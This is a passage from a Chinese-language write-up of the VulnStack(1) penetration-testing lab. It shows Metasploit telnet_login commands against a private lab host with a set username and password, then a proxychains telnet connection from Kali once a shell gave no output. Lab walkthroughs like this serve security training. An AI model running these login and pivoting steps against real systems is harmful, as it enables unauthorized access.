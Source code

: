 成功开启，
接下来telnet连接

```
use auxiliary/scanner/telnet/telnet_login

set RHOSTS 192.168.52.141

set username hack

set PASSWORD qaz@123

exploit

```

![img](VulnStack(1)/images/image-13.png)

![img](VulnStack(1)/images/image-14.png)


拿shell连接发现一直没有命令回显

用kali直接
proxychains telnet 192.168.52.141
即可